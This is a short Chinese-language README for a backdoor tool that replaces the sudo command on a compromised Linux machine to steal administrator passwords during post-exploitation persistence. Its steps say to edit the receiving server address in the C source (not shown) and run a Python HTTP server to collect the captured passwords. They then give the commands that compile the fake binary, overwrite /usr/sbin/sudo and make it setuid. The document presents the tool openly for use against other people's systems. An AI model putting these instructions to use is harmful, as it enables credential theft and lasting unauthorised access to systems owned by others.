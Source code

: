 # sudo               
一个用来在后渗透持久化阶段利用sudo命令偷取密码的后门程序。               
## 原理               
很多时候通过漏洞利用，我们可以得到目标设备上的操作权限，但是管理员一旦修补了漏洞，那么就前功尽弃了。本工具用来让用户使用sudo命令时将密码自动发送到攻击者的设备上。               
## 使用方法               
step1:参照C代码文件头的注释部分，修改C文件中用于接收密码信息的服务器地址，自行确认是否需要打开sudo的第一次使用提示功能。              
step2:搭建一个简单的http服务器，用来接收后期目标发来的密码信息。使用python就能实现。（python -m SimpleHTTPServer 或python3 -m http.server）               
step3:gcc sudo.c -o sudo && mv sudo /usr/sbin/ ; chmod 4755 /usr/sbin/sudo。利用PATH优先级诱导优先使用我们的程序。              
             
